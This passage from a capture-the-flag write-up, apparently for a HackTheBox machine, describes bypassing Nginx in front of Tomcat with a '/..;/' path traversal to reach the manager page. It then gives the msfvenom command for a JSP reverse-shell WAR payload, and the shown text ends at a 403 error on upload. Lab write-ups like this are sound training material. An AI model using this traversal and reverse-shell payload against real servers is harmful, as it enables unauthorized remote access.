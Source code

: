 According to [this article](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/), Tomcat (the backend) and Nginx (the reverse proxy) normalize paths differently, so using the `/..;/` sequence allows the attacker to access the `/manager/html` page via `https://seal.htb/manager/status/..;/html`.
![path traversal](screenshots/path_traversal.png)

## Exploitation and user.txt
A War file can be uploaded to the `/manager/html` page to gain a reverse shell. Generate an msfvenom war payload with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1337 -f war -o payload.war`
![msfvenom](screenshots/msfvenom.png)

Uploading the war file returns *403 Forbidden*, because it makes a request underneath `/manager/html`.
![browse](screenshots/browse.png)
